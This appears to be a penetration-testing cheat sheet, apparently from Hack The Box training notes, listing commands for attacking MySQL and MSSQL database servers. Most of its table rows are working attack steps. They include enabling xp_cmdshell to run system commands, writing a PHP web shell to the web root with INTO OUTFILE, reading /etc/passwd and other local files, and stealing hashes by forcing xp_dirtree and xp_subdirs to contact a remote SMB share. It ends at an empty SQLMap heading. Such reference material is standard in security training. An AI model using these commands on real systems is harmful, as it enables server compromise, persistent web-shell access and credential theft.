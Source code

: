 #SQL #MySQL #MSSQL #SQLMap  #sqlcmd #sqsh 

## Interacting with SQL Databases

|**Command**|**Description**|
|---|---|
|`mysql -u julio -pPassword123 -h 10.129.20.13`|Connecting to the MySQL server.|
|`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`|Connecting to the MSSQL server.|
|`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux.|
|`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.|
|`mysql> SHOW DATABASES;`|Show all available databases in MySQL.|
|`mysql> USE htbusers;`|Select a specific database in MySQL.|
|`mysql> SHOW TABLES;`|Show all available tables in the selected database in MySQL.|
|`mysql> SELECT * FROM users;`|Select all available entries from the "users" table in MySQL.|
|`sqlcmd> SELECT name FROM master.dbo.sysdatabases`|Show all available databases in MSSQL.|
|`sqlcmd> USE htbusers`|Select a specific database in MSSQL.|
|`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`|Show all available tables in the selected database in MSSQL.|
|`sqlcmd> SELECT * FROM users`|Select all available entries from the "users" table in MSSQL.|
|`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`|To allow advanced options to be changed.|
|`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`|To enable the xp_cmdshell.|
|`sqlcmd> RECONFIGURE`|To be used after each sp_configure command to apply the changes.|
|`sqlcmd> xp_cmdshell 'whoami'`|Execute a system command from MSSQL server.|
|`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`|Create a file using MySQL.|
|`mysql> show variables like "secure_file_priv";`|Check if the the secure file privileges are empty to read locally stored files on the system.|
|`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`|Read local files in MSSQL.|
|`mysql> select LOAD_FILE("/etc/passwd");`|Read local files in MySQL.|
|`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`|Hash stealing using the `xp_dirtree` command in MSSQL.|
|`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`|Hash stealing using the `xp_subdirs` command in MSSQL.|
|`sqlcmd> SELECT srvname, isremote FROM sysservers`|Identify linked servers in MSSQL.|
|`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`|Identify the user and its privileges used for the remote connection in MSSQL.|

---

## SQLMap Cheat Sheet
